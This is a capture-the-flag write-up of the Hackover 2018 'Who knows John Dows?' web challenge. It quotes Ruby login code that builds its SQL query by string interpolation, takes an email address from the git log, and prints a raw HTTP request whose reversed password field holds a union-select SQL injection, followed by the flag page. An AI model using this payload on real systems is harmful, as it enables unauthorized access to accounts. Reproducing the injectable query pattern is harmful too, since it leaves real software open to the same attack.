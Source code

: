 ```yaml
---
layout: post
title: ctf 0x01 / Who knows John Dows? [WEB]
category: ctf
tags: [ctf, writeup, place, ctftime, shellraisers, hackover18, web, john, dows, stalking]
---
```


## Stalking at the wrong side [of query]

```
Howdy mate! Just login and hand out the flag, aye! You can find on h18johndoe has all you need!
```

What's interesting, the `h18johndoe` name points to a file in an external git repository (on github): [user_repo.rb](https://github.com/h18johndoe/user_repository/blob/master/user_repo.rb)

<!--more-->

The interesting part of that code is:

```ruby
 def login(identification, password)
    hashed_input_password = hash(password)
    query = "select id, phone, email from users where email = '#{identification}' and password_digest = '#{hashed_input_password}' limit 1"
    puts "SQL executing: '#{query}'"
    @database[query].first if user_exists?(identification)
  end
```

We can also see that the *hashing* function is a simple reverse func:

```ruby
def hash(password)
    password.reverse
  end
```

Sooooo...

We can see that along the `identification` field, the `password` field is posted (note that it's not in the original request - you have to add it by yourself as there is no *password* input).
Furthermore, the password field is - as we've just observed - *hashed* by reversing and what we post is inserted into the SQL query. We've got an `SQL injection`!

We can't inject the identification field, though (as a check is performed to see whether the user exists), so we use the `hashed_input_password` part. We still need either the email or phone number as an identification. How can we obtain them? Well, from the GIT log after cloning the repo (thanks [tezeb](https://github.com/tezeb) for reminding me about this!):

```
$ git clone https://github.com/h18johndoe/user_repository
Cloning into 'user_repository'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 12 (delta 2), reused 12 (delta 2), pack-reused 0
Unpacking objects: 100% (12/12), done.
$ cd user_repository/
$ git log | head -5
commit b26aed283d56c65845b02957a11d90bc091ac35a
Author: John Doe <angelo_muh@yahoo.org>
Date:   Tue Oct 2 23:55:57 2018 +0200

    Add login method
(...)
commit 3ec70acbf846037458c93e8d0cb79a6daac98515
Author: John Doe <john_doe@notes.h18>
Date:   Tue Oct 2 23:01:30 2018 +0200

    Add user repo class and file
```

Thus, as we know what the *hashing* function does, we just supply the email and *hash* (reverse) the query to get in:

```
POST /login HTTP/1.1
Host: yo-know-john-dow.ctf.hackover.de:4567
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://yo-know-john-dow.ctf.hackover.de:4567/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Cookie:  (...)
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

identification=john_doe@notes.h18&password=-- 1 timil sresu morf enohp,2,1 tceles noinu 1=1 ro '
```
```html
<!doctype html>
<html>
<title>Yah know john dow?</title>
<!-- challange by ellcs -->
<meta name="viewport" content="width=device-width, initial-scale=1">
<link rel="stylesheet" href="w3.css">
<script type="text/javascript" src="/js/script.js"></script>
<body>
<div class="w3-container w3-bar w3-indigo"> <h1>D0 Y0u kn0W j0Hn D0w?</h1> </div>
<div class="w3-main">
  <div class="w3-bar w3-blue">
      <div class="w3-bar-item w3-green w3-mobile">Logged in as: 0157 1337 42</div>
      <a href="/logout" class="w3-bar-item w3-button w3-mobile">Logout</a>
  </div>
  <div class="w3-container w3-center">
    HERE IS YO FLAG:

    hackover18{I_KN0W_H4W_70_STALK_2018}
</div>
</div>
</body>
</html>
```

At this point we actually got frustrated since the flag didn't get accepted; we tried to go through the database (via `sqlite_master`) while pinging the organizers about the problem.

We didn't find anything in the DB and it was just a technical issue, after all - the organizers quickly fixed it, we submitted the flag and got the points :-)

**Flag:** `hackover18{I_KN0W_H4W_70_STALK_2018}`

Cheers!